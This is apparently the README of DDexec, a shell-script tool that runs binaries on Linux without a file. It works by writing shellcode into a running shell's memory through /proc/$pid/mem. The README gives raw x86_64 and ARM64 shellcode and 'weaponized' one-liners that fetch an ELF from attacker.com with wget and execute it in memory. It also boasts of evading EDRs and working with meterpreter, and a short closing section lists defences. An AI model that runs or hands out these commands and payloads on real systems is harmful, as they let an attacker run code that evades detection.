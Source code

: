 # DDexec
## Context
In Linux in order to run a program it must exist as a file, it must be accessible in some way through the file system hierarchy (this is just how `execve()` works). This file may reside on disk or in ram (tmpfs, memfd) but you need a filepath. This has made very easy to control what is run on a Linux system, it makes easy to detect threats and attacker's tools or to prevent them from trying to execute anything of theirs at all (_e. g._ not allowing unprivileged users to place executable files anywhere).

But this technique is here to change all of this. If you can not start the process you want... then you hijack one already existing.

## Usage
Pipe into the `ddexec.sh` script the base64 of the binary you want to run (**without** newlines). The arguments for the script are the arguments for the program (starting with `argv[0]`).

Here, try this:
```
base64 -w0 /bin/ls | bash ddexec.sh ls -lA
```
which is easily weaponizable with something like
```
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

There is also the `ddsc.sh` script that allows you to run binary code directly.
The following is an example of the use of a shellcode that will create a memfd (a file descriptor pointing to a file in memory) to which we can later write binaries and run them, from memory obviously.
```
bash ddsc.sh -x <<< "68444541444889e74831f64889f0b401b03f0f054889c7b04d0f05b0220f05" &
cd /proc/6506/fd
wget -O 4 https://attacker.com/binary.elf
./4
```
or in ARM64
```
bash ddsc.sh -x <<< "802888d2a088a8f2e00f1ff8e0030091210001cae82280d2010000d4c80580d2010000d4881580d2010000d4610280d2281080d2010000d4"
```

And yes. It works with meterpreter.

Tested Linux distributions are Debian, Alpine and Arch. Supported shells are bash, zsh and ash (busybox); on x86_64 and aarch64 (arm64) architectures.

### EverythingExec
As of 12/12/2022 I have found a number of alternatives to `dd`, one of which, `tail`, is currently the default program used to `lseek()` through the `mem` file (which was the sole purpose for using `dd`). Said alternatives are:
```
tail
hexdump
cmp
xxd
```

Setting the variable `SEEKER` you may change the seeker used, *e. g.*:
```
SEEKER=cmp bash ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```

If you find another valid seeker not implemented in the script you may still use it setting the `SEEKER_ARGS` variable:
```
SEEKER=xxd SEEKER_ARGS='-s $offset' zsh ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```
Block this, EDRs.

## Dependencies
This script depends on the following tools to work.
```
tail | dd | hexdump | any other program that allows us to seek through a fd
bash | zsh | ash (busybox)
head
tail
cut
grep
od
readlink
wc
tr
basename
base64
```

## The technique
If you are able to modify arbitrarily the memory of a process then you can take over it. This can be used to hijack an already existing process and replace it with another program. We can achieve this either by using the `ptrace()` syscall (which requires you to have the ability to execute syscalls or to have gdb available on the system) or, more interestingly, writing to `/proc/$pid/mem`.

The file `/proc/$pid/mem` is a one-to-one mapping of the userland's address space of a process (_e. g._ from `0x0` to `0x7ffffffffffff000` in x86-64). This means that reading from or writing to this file at an offset `x` is the same as reading from or modifying the contents at the virtual address `x`.

Now, we have three basic problems to face:
- In general, only root and the program owner of the file may modify it.
- ASLR.
- If we try to read or write to an address not mapped in the address space of the program we will get an I/O error.

But we have clever solutions:
- Most shell interpreters allow the creation of file descriptors that will then be inherited by child processes. We can create a fd pointing to the `mem` file of the sell with write permissions... so child processes that use that fd will be able to modify the shell's memory.
- ASLR isn't even a problem, we can check the shell's `maps` file from the procfs in order to gain information about the address layout of the process.
- So we need to `lseek()` over the file. From the shell this can be done using a few common binaries, like `tail` or the infamous `dd`, see the *EverythingExec* section for more information.

### In more detail
The steps are relatively easy and do not require any kind of expertise to understand them:
* Parse the binary we want to run and the loader to find out what mappings they need. Then craft a *shell*code that will perform, broadly speaking, the same steps that the kernel does upon each call to `execve()`:
    * Create said mappings.
    * Read the binaries into them.
    * Set up permissions.
    * Finally initialize the stack with the arguments for the program and place the auxiliary vector (needed by the loader).
    * Jump into the loader and let it do the rest (load and link libraries needed by the program).
* Obtain from the `syscall` file the address to which the process will return after the syscall it is currently executing.
* Overwrite that place, which will be executable, with our shellcode (through `mem` we can modify unwritable pages).
* Pass the program we want to run to the stdin of the process (will be `read()` by said *shell*code).
* At this point it is up to the loader to load the necessary libraries for our program and jump into it.

Oh, and all of this must be done in s**hell** scripting, or what would be the point?

## Contribute
Well, there are a couple of TODOs. Besides this, you may have noticed that I do not know much about shell scripting (I am more of a C programmer myself) and I am sure I must have won a decade worth of ["useless use of a cat"](https://porkmail.org/era/unix/award.html) awards (no cats were harmed in the making of this tool) and the rest of variants just with a fraction of this project.

- Improve code style and performance.
- Port to other shells.
- Allow run the program with a non-empty environment.

Anyway, **all contribution is welcome**. Feel free to fork and PR.

## Credit
Recently I have come to know that [Sektor7](https://www.sektor7.net) had already [published](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md) this almost-exact same technique on their blog a few years ago.

Despite this, I thought this technique independently in, now almost, its entirety. Probably the smarter piece of this technique is the use of the inherited file descriptor, idea provided by [David Buchanan](https://github.com/DavidBuchanan314) (inspired, I think, by Sektor7's blog) almost a year before I even started thinking about this topic. This alone not only makes the technique much simpler and neat, it also makes it far deadlier by eliminating the need to disable ASLR. His [tweet](https://twitter.com/David3141593/status/1386661837073174532) also made me realize how *stupid* I was for not noticing that `mem` allowed to write to non-writable pages, hence making the ROP unnecessary... This ultimately also has the desired effect of making this significantly easier to port to other ISAs.

Either way, I hope I will be able to spread this technique much further, which is what matters.

I would like to thank [Carlos Polop](https://github.com/carlospolop), a great pentester and better friend, for making me think about this subject, and for his helpful feedback and interest, oh and I also owe him the name of the project. I am sure that if you are reading this you have already used his awesome tool [PEASS](https://github.com/carlospolop/PEASS-ng) and found helpful some article in his book [HackTricks](https://book.hacktricks.xyz). I also thank him for helping me with the talk at the [RootedCon 2022](https://rootedcon.com).

## Now what?
You may:
- Go distroless.
- Use a kernel compiled without support for the `mem` file.
- Detect any program opening or writing to the `mem` file.

## Questions? Death threats?
Feel free to send me an email to [yagogl@protonmail.com](mailto:yagogl@protonmail.com) or to contact me through [Twitter](https://twitter.com/arget1313).

